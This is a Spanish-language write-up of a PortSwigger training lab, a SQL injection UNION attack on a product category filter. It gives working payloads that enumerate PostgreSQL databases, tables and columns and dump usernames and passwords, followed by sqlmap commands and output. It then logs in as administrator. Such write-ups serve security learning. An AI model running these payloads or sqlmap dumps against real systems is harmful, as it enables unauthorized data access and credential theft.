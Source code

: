 ```yaml
---
title: SQL injection UNION attack, retrieving data from other tables
date: 2024-11-15 12:39:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving data from other tables
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-9/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-9/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-9/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-9/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-9/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información. En este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle`, debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-9/image_6.png)

`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-9/image_7.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-9/image_8.png)

`Listamos` todos los `esquemas` para la `base de datos actual`

```
/filter?category='+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-9/image_9.png)

`Listamos` el `nombre` de las `tablas` del esquema `public`

```
/filter?category='+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-9/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-9/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+username,password+from+users--+-+
```

![](/assets/img/SQLI-Lab-9/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+----------+
| products |
| users    |
+----------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users -C username,password --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | 9ti7sbwit1xxfn9k0bev |
| wiener        | mlcv6e5h7scs5tzvmhmq |
| carlos        | 4k5cdgfdtrvmg2922kev |
+---------------+----------------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-9/image_13.png)
